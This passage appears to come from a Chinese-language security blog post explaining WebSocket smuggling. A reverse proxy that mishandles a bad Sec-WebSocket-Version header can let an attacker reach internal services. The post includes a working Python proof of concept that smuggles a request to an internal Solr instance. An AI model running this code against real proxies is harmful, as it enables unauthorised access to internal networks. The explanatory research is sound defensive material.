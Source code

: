 ## Websocket

其实这部分完全可以作为一个独立的部分，但是感觉篇幅有点长了，这里就做一下简单的介绍，在 Hackactivity 2019 上，@0ang3el 提出了与 Websocket 相关的攻击技术 [What’s wrong with WebSocket APIs? Unveiling vulnerabilities in WebSocket APIs.](https://www.slideshare.net/0ang3el/whats-wrong-with-websocket-apis-unveiling-vulnerabilities-in-websocket-apis)，让我比较感兴趣的则是 Websocket Smuggling 的部分。

作者也把相关的描述放在了 [websocket-smuggle](https://github.com/0ang3el/websocket-smuggle) 这里，这个攻击面是什么呢？帮大家一句话总结就是在 websocket 建立连接时，如果反向代理没有完全严格遵守 RFC 6445 标准，在处理`Sec-WebSocket-Version` 版本错误的情况并没有做好相应的处理，导致了保持了客户端与后端服务器 TCP/TLS 的连接，所以造成了我们可以进行 Smuggling 请求的攻击，这里直接表现为可以通过这种攻击访问内网。

这里我们假设内网存在 solr 服务，外网无法访问，如果存在 websocket smuggling ，我们可以编写以下代码访问 solr 服务：

```plain
import socket 

req1 = """GET /socket.io/?EIO=3&transport=websocket HTTP/1.1
Host: ip:port
Sec-WebSocket-Version: 1338
Upgrade: websocket

""".replace('\n', '\r\n')

req2 = """GET /solr/#/ HTTP/1.1
Host: localhost:8983

""".replace('\n', '\r\n')

def main(netloc):
    host, port = netloc.split(':')

    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((host, int(port)))

    sock.sendall(req1)
    sock.recv(4096)

    sock.sendall(req2)
    # print req2
    data = sock.recv(4096)
    data = data.decode(errors = 'ignore')
    print(data)
    data = sock.recv(4096)
    data = data.decode(errors = 'ignore')
    print(data)

    sock.shutdown(socket.SHUT_RDWR)
    sock.close()

if __name__ == "__main__":
    main('ip:port')
```

